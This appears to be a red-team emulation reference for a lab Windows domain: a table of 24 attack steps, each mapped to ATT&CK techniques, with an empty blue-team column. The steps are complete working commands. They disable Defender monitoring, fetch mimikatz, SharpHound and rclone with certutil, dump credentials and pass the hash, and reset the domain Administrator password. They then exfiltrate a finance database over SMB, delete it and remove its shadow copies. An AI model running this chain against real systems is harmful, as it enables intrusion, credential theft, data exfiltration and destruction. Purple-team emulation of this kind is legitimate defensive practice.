 # Red Team Emulation Reference

## Part 1

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|1 | `xfreerdp3 /u:PurpleUser /p:SecurePwd123 /v:10.0.1.15 /cert:ignore +clipboard` | T1021.001, T1078|
|2 | `whoami /all systeminfo` | T1033, T1082, T1059.001<br>(PowerShell T1059.001 will not be mentioned after that every time it is used)|
|3 | `quser` | T1033, T1082|
|4 | `net localgroup administrators`| T1069.001|
|5 | `Get-Process \| Select -Unique ProcessName` | T1057|
|6 | `Get-MpComputerStatus` | T1518.001|
|7 | `Set-MpPreference -DisableRealtimeMonitoring 1`<br>`Set-MpPreference -DisableBehaviorMonitoring 1`<br>`Set-MpPreference -DisableScriptScanning 1`<br>`Set-MpPreference -DisableBlockAtFirstSeen 1` | T1562.001|
|8 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/mimikatz.exe C:\Temp\m.exe` | T1105|
|9 | `C:\temp\m.exe`<br>`privilege::debug`<br>`sekurlsa::logonpasswords` | T1003.001|
|10 | `[ITSERVER:mimikatz] sekurlsa::pth /user:billh /ntlm:<NTLM-hash> /domain:attackrange /run:powershell` | T1550.002|
|11 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/SharpHound.exe C:\Temp\sh.exe` | T1105|
|12 | `C:\temp\sh.exe --memcache --zipfilename c.zip --outputdirectory C:\temp\` | T1087.001, T1087.002, T1560, T1059.001, T1482, T1615, T1106, T1201, T1069.001, T1069.002, T1018, T1033|
|13 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|14 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` | T1105, T1564, T1048|
|15 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Temp\<c.zip-filename> ss:data --no-check-dest` | T1048|

## Part 2

| Step | Action | ATT&CK Techniques | Blue Verification |
|--------|-------------------------------------------------------------------------|----------------|-----------------------------------------------------------|
|16 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/PowerShellActiveDirectory.dll C:\Temp\a.dll Import-Module C:\Temp\a.dll` | T1005|
|17 | `Add-ADGroupMember -Identity "ITSupport" -Members "billh"` | T1098.007|
|18 | `Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString 'DomainPwned!' -AsPlainText -Force) -Reset` | T1098|
|19 | `xfreerdp3 /u:Administrator /p:'DomainPwned!' /d:ATTACKRANGE /v:10.0.1.16 /cert:ignore +clipboard` | T1021.001, T1078|
|20 | `Set-MpPreference -DisableRealtimeMonitoring 1` | T1562.001|
|21 | `certutil -urlcache -f https://github.com/MihhailSokolov/SecTools/raw/main/rclone.exe C:\Temp\r.exe` | T1105|
|22 | `[ss]`<br>`type = smb`<br>`host = 10.0.1.30`<br>`user = user`<br>`pass = KN_sSidIRaFo_cmcZ_YNa5o8SLfyli8` | T1105, T1564, T1048|
|23 | `C:\Temp\r.exe --config C:\Temp\r.conf copy C:\Users\Administrator\Documents\finance.db ss:data --no-check-dest` | T1048|
|24 | `rm C:\Users\Administrator\Documents\finance.db`<br>`vssadmin.exe delete shadows /all` | T1490|
